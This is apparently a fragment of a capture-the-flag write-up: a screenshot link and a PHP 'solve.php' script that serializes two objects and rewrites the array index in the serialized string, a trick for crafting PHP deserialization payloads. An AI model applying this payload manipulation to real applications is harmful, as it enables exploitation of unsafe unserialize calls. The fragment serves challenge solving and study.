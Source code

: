 ![](2021-12-01%2014-35-29%20的屏幕截图.png)

```php
<?php
//solve.php
class demo{

}
class fake{

}
$a=new demo();
$b=new fake();
$c=array($a,$b);
var_dump(serialize($a));
$str=serialize($c);
$str=str_ireplace('i:1;O:4:"fake"','i:0;O:4:"fake"',$str);
var_dump($str);
```
